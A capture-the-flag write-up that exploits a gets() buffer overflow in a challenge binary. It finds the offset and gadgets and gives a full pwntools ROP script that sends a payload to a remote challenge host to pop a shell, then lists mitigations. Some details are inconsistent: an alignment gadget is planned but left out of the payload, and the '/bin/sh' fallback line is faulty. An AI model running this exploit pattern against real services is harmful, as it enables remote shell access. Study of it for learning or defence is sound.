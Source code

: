 # **Write-Up: Buffer Overflow to Direct `system()` Execution**

## **Challenge Overview**
**Binary:** `chall`  
**Protections:**  
- **Partial RELRO** (GOT is writable)  
- **No PIE** (base address fixed)  
- **No Stack Canary**  
- **NX Enabled** (no shellcode execution)  

**Vulnerability:** Buffer overflow in `gets()`  
**Target:** `chall.c00k3d.xyz`  
**Goal:** Execute `system("/bin/sh")` by exploiting the buffer overflow.  

---

## **1. Binary Analysis**
### **Source Code (`chall.c`)**
```c
#include <stdio.h>
#include <string.h>

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

int callme() {
    char command[7];
    strcpy(command, "ls -la");
    return system(command);
}

int main() {
    char buffer[32];
    init();
    printf("Enter Data - ");
    gets(buffer);
    return 0;
}
```

### **Key Observations**
1. **`gets(buffer)`** is vulnerable to buffer overflow (no bounds checking).
2. **`callme()`** calls `system("ls -la")`, but we want a shell.
3. **No PIE** → Addresses are constant (easy ROP).
4. **NX Enabled** → Cannot execute shellcode on the stack.

---

## **2. Exploit Strategy**
### **Objective**
Overwrite the return address in `main()` to jump to `system("/bin/sh")` directly.

### **Steps**
1. **Find the offset** to overwrite the return address.
2. **Locate `system@plt`** (since PLT is fixed due to No PIE).
3. **Find `/bin/sh`** in the binary (or use `echo`).
4. **Construct ROP chain** to call `system("/bin/sh")`.

---

## **3. Exploit Development**
### **Step 1: Find the Offset**
The buffer is 32 bytes, and we need to overwrite:
- **32 bytes** (buffer)  
- **8 bytes** (saved RBP)  
- **Total = 40 bytes** to reach the return address.

**Confirm with `gdb`**:
```bash
gdb ./chall
pattern create 100
run
# Crash at 0x6161616161616166 ('faaaaaaa')
pattern offset 'faaaaaaa'
# Output: 40
```

### **Step 2: Locate `system@plt` and `/bin/sh`**
```bash
objdump -d ./chall | grep "system@plt"
# Output: 0000000000401050 <system@plt>
strings -a -t x ./chall | grep "/bin/sh"
# If not found, use 'sh' or 'echo'
```

### **Step 3: Build the ROP Chain**
We need:
1. **`ret` gadget** (for stack alignment in x64).  
2. **`pop rdi; ret` gadget** (to set the first argument).  
3. **Address of `/bin/sh`** (or another command).  
4. **Address of `system@plt`**.

**Find gadgets**:
```bash
ROPgadget --binary ./chall | grep "pop rdi"
# Example: 0x4012ab : pop rdi ; ret
```

---

## **4. Final Exploit Code**
```python
from pwn import *

# Set up binary and ROP
elf = context.binary = ELF('./chall')
rop = ROP(elf)

# Remote target
host = 'chall.c00k3d.xyz'
port = 10003

# Addresses
system_plt = elf.plt['system']
binsh = next(elf.search(b'/bin/sh\x00')) or next(elf.search(b'sh\x00'))
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

# Payload
offset = 40
payload = flat(
    b'A' * offset,      # Padding to return address
    pop_rdi,            # Set RDI = /bin/sh
    binsh,              # Argument for system()
    system_plt          # Call system("/bin/sh")
)

# Exploit
io = remote(host, port)
io.sendlineafter(b"Enter Data - ", payload)
io.interactive()  # Get shell!
```

---

## **5. Why This Works**
1. **Buffer Overflow**: `gets()` allows writing past `buffer[32]`.  
2. **No Stack Canary**: No protection against overwriting the return address.  
3. **No PIE**: `system@plt` and gadgets have fixed addresses.  
4. **ROP Chain**:  
   - `pop rdi` sets the argument (`/bin/sh`).  
   - `system@plt` is called directly.  

---

## **6. Mitigations**
To prevent this exploit:
1. **Use `fgets()` instead of `gets()`** (bounds checking).  
2. **Enable Full RELRO** (makes GOT read-only).  
3. **Enable Stack Canaries** (detects stack smashing).  
4. **Enable PIE** (randomizes binary addresses).  

---

## **Conclusion**
- **Vulnerability**: Unbounded `gets()` → Buffer overflow.  
- **Exploit**: Overwrite return address → ROP to `system("/bin/sh")`.  
- **Result**: Remote shell access.  

## result:

![result](./img/result.png)

---

### **Notes**
- If `/bin/sh` isn’t in the binary, use `echo *` to list files, then `cat flag.txt`.  
- If ASLR were enabled, we’d need a **libc leak** first.  
